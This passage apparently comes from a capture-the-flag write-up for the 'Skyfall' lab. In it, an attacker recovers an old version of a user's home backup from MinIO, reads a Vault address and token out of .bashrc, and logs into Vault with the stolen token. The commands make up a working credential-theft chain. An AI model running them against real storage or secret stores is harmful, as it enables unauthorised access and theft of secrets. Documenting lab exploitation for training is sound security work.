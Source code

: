 ```console
[2023-11-08 12:58:10 +08]     0B omansfield/
[2023-11-08 13:36:09 +08]  48KiB STANDARD null v1 PUT omansfield/Welcome.pdf
[2023-11-08 12:58:45 +08]     0B rsilva/
[2023-11-08 13:35:51 +08]  48KiB STANDARD null v1 PUT rsilva/Welcome.pdf
```

```console
root@kali:~# mc cp --version-id 2b75346d-2a47-4203-ab09-3c9f878466b8 skyfall/askyy/home_backup.tar.gz .
...fall.htb/askyy/home_backup.tar.gz: 2.64 KiB / 2.64 KiB ┃▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓┃ 54.48 KiB/s 0s

root@kali:~# mkdir askyy_home_backup

root@kali:~# tar xvf home_backup.tar.gz -C ./askyy_home_backup
./
./.profile
./.bashrc
./.ssh/
./.ssh/authorized_keys
./.sudo_as_admin_successful
./.bash_history
./.bash_logout
./.cache/
./.cache/motd.legal-displayed
```

`VAULT_API_ADDR` and `VAULT_TOKEN` found in `.bashrc` (v2):

```console
root@kali:~# cat ./askyy_home_backup/.bashrc
⋮
export VAULT_API_ADDR="http://prd23-vault-internal.skyfall.htb"
export VAULT_TOKEN="hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE"
⋮
```

### 2.4. Access Vault

Get the [Vault Client](https://developer.hashicorp.com/vault/downloads#linux) and access the Vault with the `VAULT_TOKEN`

```console
root@kali:~# sed -i '0,/localhost/a 10.10.11.254    prd23-vault-internal.skyfall.htb' /etc/hosts

root@kali:~# curl -sLO https://releases.hashicorp.com/vault/1.17.2/vault_1.17.2_linux_amd64.zip

root@kali:~# unzip vault_1.17.2_linux_amd64.zip
Archive:  vault_1.17.2_linux_amd64.zip
  inflating: vault
  inflating: LICENSE.txt

root@kali:~# mv vault /usr/local/bin/

root@kali:~# export VAULT_ADDR=http://prd23-vault-internal.skyfall.htb

root@kali:~# vault login
Token (will be hidden):
WARNING! The VAULT_TOKEN environment variable is set! The value of this
variable will take precedence; if this is unwanted please unset VAULT_TOKEN or
update its value accordingly.

Success! You are now authenticated. The token information displayed below
is already stored in the token helper. You do NOT need to run "vault login"
again. Future Vault requests will automatically use this token.
```